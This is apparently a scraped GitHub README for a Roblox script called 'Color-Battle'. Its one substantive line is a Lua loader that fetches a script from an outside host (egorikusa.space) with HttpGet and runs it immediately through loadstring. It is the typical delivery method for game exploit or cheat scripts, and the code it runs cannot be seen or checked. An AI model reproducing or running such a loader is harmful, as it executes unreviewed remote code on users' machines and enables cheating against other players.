 # Color-Battle


loadstring(game:HttpGet("https://egorikusa.space/b496f8e694256144cccb80eb.lua", true))()

